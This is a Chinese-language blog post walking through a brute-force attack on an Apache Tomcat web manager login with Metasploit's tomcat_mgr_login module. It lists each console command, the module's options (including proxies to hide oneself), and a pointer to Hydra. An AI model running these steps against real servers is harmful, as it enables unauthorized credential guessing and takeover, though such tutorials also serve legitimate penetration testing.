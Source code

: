 ```yaml
---
layout: post
title: 使用Metasploit破解Tomcat密码
---
```


Apache Tomcat是Java web应用使用最广的服务程序，而且很多Tomcat服务都使用默认配置。本帖利用暴露的Tomcat web管理器破解密码，web管理器允许Tomcat管理员启动、停止、重启应用。

* [Ubuntu 16.04安装Tomcat 8](http://blog.topspeedsnail.com/archives/4551)

下面我使用Metasploit暴力破解Tomcat管理员密码。

在启动Metasploit之前，先启动postgresql数据库服务：

{% highlight shell %}
# service postgresql start
{% endhighlight %}

启动Metasploit控制台：

{% highlight shell %}
# msfconsole
{% endhighlight %}

加载tomcat_mgr_login模块：

{% highlight shell %}
> use auxiliary/scanner/http/tomcat_mgr_login
{% endhighlight %}

显示选项：

{% highlight shell %}
> show options
{% endhighlight %}

![使用Metasploit破解Tomcat密码]({{ site.baseurl }}/images/2016/5/Screenshot from 2016-05-15 18-41-32.png)

设置目标主机：

{% highlight shell %}
> set rhosts 192.168.0.103
{% endhighlight %}

为了提高破解速度可以启动多个线程，但是不要太多：

{% highlight shell %}
> set threads 3
{% endhighlight %}

为了防止服务器负载过高，限制请求速度：

{% highlight shell %}
> set bruteforce_speed 3
{% endhighlight %}

开始破解破解：

{% highlight shell %}
> run
{% endhighlight %}

输出尝试登录信息，带+的是正确密码

![使用Metasploit破解Tomcat密码]({{ site.baseurl }}/images/2016/5/Screenshot from 2016-05-15 18-53-30.png)

如果要想在找到正确密码之后停止，设置 set STOP_ON_SUCCESS true。

***

更多选项：

* BLANK_PASSWORDS：测试空密码
* PASSWORD：测试指定密码
* PASS_FILE：字典文件
* Proxies：代理，隐藏自己
* RHOSTS：Tomcat主机，也可以是文件
* RPORT：Tomcat使用的端口
* STOP_ON_SUCCESS：找到密码之后停止
* USER_FILE：用户名文件
* USER_PASS_FILE：用户：密码组合文件

*****

也可以使用Hydra破解Tomcat密码，使用http-head选项，-L指定用户名文件，-P指定密码文件；

* [使用Hydra通过ssh破解密码](http://topspeedsnail.com/kydra-crack-ssh-and-avoid-attack/)